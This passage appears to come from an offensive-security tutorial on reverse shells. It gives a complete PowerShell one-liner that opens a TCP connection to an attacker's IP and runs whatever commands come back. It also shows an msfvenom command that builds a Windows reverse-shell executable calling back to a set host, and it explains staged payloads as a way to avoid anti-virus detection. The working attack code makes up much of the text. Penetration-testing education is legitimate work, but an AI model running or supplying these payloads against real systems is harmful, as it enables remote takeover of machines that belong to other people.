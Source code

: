 When targeting a modern Windows Server, we would require a Powershell reverse shell. The standard syntax is

```powershell
> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

replacing \<IP> with the attacker's IP address and \<PORT> with the appropriate port.

-----

### Other payloads

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository that contains a wide variety of shell codes. 

## msfvenom

msfvenom is part of the Metasploit framework and can be used to generate code for reverse and bind shells. It is used extensivelt in lower-level exploit development to generate hexadecimal shellcode. However, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.py`).

The standard syntax for msfvenom to generate payloads is as follows:

```console
~$ msfvenom -p <PAYLOAD> <OPTIONS>
```

For example, to generate a Windows x64 reverse shell in an executable format, we would use

```console
~$ msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.10 LPORT=50000
```

Here, we generated a payload using four options:

1. `-f <FORMAT>` -- specifies the output format, which in this case is an executable (exe).
2. `-o <FILENAME>` -- specifies the output location and filename for the generated payload.
3. `LHOST=<IP>` -- specifies the IP to connect back to.
4. `LPORT=<PORT>` -- specifies the port to connect back to. This can be anything between 0 and 65535, but recall that ports below 1024 require a listener with root priviledges. 

-----

### Staged vs Stageless

Before proceeding any further, we need to introduce the concept of *staged* and *stageless* reverse shell payloads. 

**Staged** payloads are sent in **two** parts. The first part, known as the *stager* is a piece of code that is executed directly on the server itself. It connects back to a waiting listener, but does not contain any reverse shell code. Instead, upon connection to a listener, it uses the connection to load the real payload, executing it directly. This prevents the payload from touching the disk where it is susceptible to being detected by anti-virus solutions. 
